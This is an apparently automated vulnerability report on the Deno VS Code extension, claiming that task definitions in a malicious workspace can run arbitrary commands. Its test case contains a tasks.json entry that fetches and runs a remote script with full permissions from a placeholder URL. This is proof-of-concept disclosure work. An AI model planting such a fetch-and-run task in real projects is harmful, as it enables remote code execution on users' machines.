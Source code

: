 ### Vulnerability List:

- Vulnerability Name: Task Command Injection via Malicious Workspace Configuration

- Description:
    1. An attacker crafts a malicious workspace containing a `tasks.json` or `deno.json`/`deno.jsonc` file.
    2. This file defines a Deno task with a malicious command or arguments.
    3. A victim opens this malicious workspace in VS Code with the Deno extension enabled.
    4. The Deno extension reads the task definitions from the workspace configuration files.
    5. The victim, either intentionally or accidentally (e.g., by clicking "Run Task" in the sidebar or using a keyboard shortcut), triggers the execution of the malicious task.
    6. The Deno extension executes the task using `vscode.tasks.executeTask`, which runs the attacker-defined command within the victim's VS Code environment.

- Impact:
    - **High**: Arbitrary command execution within the user's VS Code environment. This could lead to various malicious activities, including:
        - Data exfiltration: Stealing sensitive files or environment variables.
        - Code modification: Injecting malicious code into the user's projects.
        - System compromise: If the VS Code environment has sufficient permissions, the attacker could potentially gain control over the user's system.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
    - None explicitly identified in the provided project files. The extension relies on the user to only open trusted workspaces.

- Missing Mitigations:
    - **Input validation and sanitization:** The extension should validate and sanitize task definitions from workspace configuration files to prevent command injection. This includes:
        -  Whitelisting allowed commands and arguments.
        -  Escaping or quoting command arguments to prevent injection.
        -  Restricting the use of shell commands or features that could be exploited.
    - **User confirmation:** Before executing tasks defined in workspace configuration, especially for new or untrusted workspaces, the extension should prompt the user for confirmation, clearly displaying the command to be executed.
    - **Principle of least privilege:** The extension itself and the tasks it executes should operate with the minimum necessary privileges to limit the impact of potential vulnerabilities.

- Preconditions:
    1. Victim has the "Deno for Visual Studio Code" extension installed and enabled.
    2. Victim opens a malicious workspace containing crafted `tasks.json` or `deno.json`/`deno.jsonc` files.
    3. Victim triggers the execution of the malicious task defined in the workspace configuration.

- Source Code Analysis:
    - **`client\src\tasks.ts`:**
        - `DenoTaskDefinition` interface and `buildDenoTask` function are used to define and construct tasks based on configuration.
        - `ProcessExecution` is used to execute tasks, directly using user-provided `command` and `args`. No sanitization or validation is apparent in this code.
    - **`client\src\tasks_sidebar.ts`:**
        -  `DenoTasksTreeDataProvider` reads tasks from `deno.json`/`deno.jsonc` via LSP requests (`taskReq`).
        -  Tasks are executed using `tasks.executeTask(task.task)` in `#runTask` and `#runSelectedTask` methods, after being built by `buildDenoConfigTask` which ultimately relies on `buildDenoTask` from `tasks.ts`.
    - **`client\src\commands.ts`:**
        - `test` command handler in `commands.ts` shows how `DenoTaskDefinition` can be created with potentially user-controlled `testArgs`, `env`, and other settings. While this specific command is for testing, it illustrates the pattern of creating tasks based on configurations without explicit sanitization of command components.

    ```mermaid
    graph LR
        A[Malicious Workspace (tasks.json/deno.json)] --> B(VS Code Deno Extension);
        B --> C{Read Task Definitions};
        C --> D[DenoTaskDefinition (Malicious Command/Args)];
        D --> E(vscode.tasks.executeTask);
        E --> F[System Command Execution];
    ```

- Security Test Case:
    1. **Setup:**
        - Create a new folder named `malicious-deno-workspace`.
        - Inside `malicious-deno-workspace`, create a `.vscode` folder.
        - Inside `.vscode`, create a `tasks.json` file with the following content:
        ```json
        {
            "version": "2.0.0",
            "tasks": [
                {
                    "type": "deno",
                    "command": "run",
                    "args": [
                        "-A",
                        "-r",
                        "https://raw.githubusercontent.com/your-username/malicious-script/main/malicious.js"
                    ],
                    "label": "Malicious Task"
                }
            ]
        }
        ```
        - Replace `https://raw.githubusercontent.com/your-username/malicious-script/main/malicious.js` with a URL to a simple malicious JavaScript file hosted online (e.g., on a public GitHub gist or your own web server). This script could simply display an alert or attempt to write a file to the system. For example, `malicious.js` could contain:
        ```javascript
        // malicious.js
        console.log("Malicious script executed!");
        Deno.writeTextFileSync("malicious_output.txt", "This file indicates successful command execution.");
        ```
        - Ensure a Deno project is enabled in VS Code (either globally or for workspace folders).
    2. **Execution:**
        - Open the `malicious-deno-workspace` folder in VS Code.
        - Open the Command Palette (Ctrl+Shift+P or Cmd+Shift+P).
        - Type and select "Tasks: Run Task".
        - Choose "deno: Malicious Task".
    3. **Verification:**
        - Observe if the "Malicious script executed!" message is printed in the task output panel.
        - Check if the `malicious_output.txt` file is created in the `malicious-deno-workspace` folder.
        - If these conditions are met, it confirms arbitrary command execution vulnerability.

This test case demonstrates how a malicious workspace can define and execute arbitrary Deno commands, confirming the task command injection vulnerability.
